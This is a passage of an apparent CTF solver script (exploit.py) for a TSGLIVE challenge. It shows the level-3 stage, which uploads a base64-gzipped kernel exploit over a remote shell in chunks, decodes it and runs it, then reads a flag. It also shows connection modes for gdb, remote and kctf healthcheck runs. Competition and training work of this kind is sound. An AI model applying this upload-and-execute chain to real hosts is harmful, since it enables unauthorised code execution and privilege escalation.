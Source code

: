 ```exploit.py
  print("\n[!] Got a flag2 🎉🎉🎉 " + flag2)

  ##############################
  #  LEVEL 3                   #
  ##############################
  # pwning kernel...
  c.recvuntil("/home/user")
  print("[!] pwning kernel...")
  if kctf:
    with open("/home/user/exploit.gz.b64", 'r') as f:
      binary = f.read()
  else:
    with open("./exploit.gz.b64", 'r') as f:
      binary = f.read()

  progress = 0
  pp = 0
  N = 0x300
  total = len(binary)
  print("[+] sending base64ed exploit (total: {})...".format(hex(len(binary))))
  for s in [binary[i: i+N] for i in range(0, len(binary), N)]:
    c.sendlineafter('$', 'echo -n "{}" >> exploit.gz.b64'.format(s)) # don't forget -n
    progress += N
    if (float(progress) / float(total)) > pp:
      pp += 0.1
      print("[.] sent {} bytes [{} %]".format(hex(progress), float(progress)*100.0/float(total)))
  c.sendlineafter('$', 'base64 -d exploit.gz.b64 > exploit.gz')
  c.sendlineafter('$', 'gunzip ./exploit.gz')

  c.sendlineafter('$', 'chmod +x ./exploit')
  c.sendlineafter('$', '/home/user/exploit')

  c.recvuntil("# ")
  c.sendline("cat flag3")
  flag3 = c.recvline()
  if "TSGLIVE" not in flag3:
      exit(3)
  print("\n[!] Got a flag3 🎉🎉🎉 " + flag3)


## main ##############################################

if __name__ == "__main__":
    global c
    global kctf
    kctf = False
    
    if len(sys.argv)>1:
      if sys.argv[1][0]=="d":
        cmd = """
          set follow-fork-mode parent
        """
        c = gdb.debug(FILENAME,cmd)
      elif sys.argv[1][0]=="r":
        c = remote(rhp1["host"],rhp1["port"])
      elif sys.argv[1][0]=="v":
        c = remote(rhp3["host"],rhp3["port"])
      elif sys.argv[1][0]=="k":
        c = remote("127.0.0.1", 1337) # kctf XXX
        kctf = True
        print("[+] kctf healthcheck mode")
        print(c.recvuntil("== proof-of-work: "))
        if c.recvline().startswith(b'enabled'):
```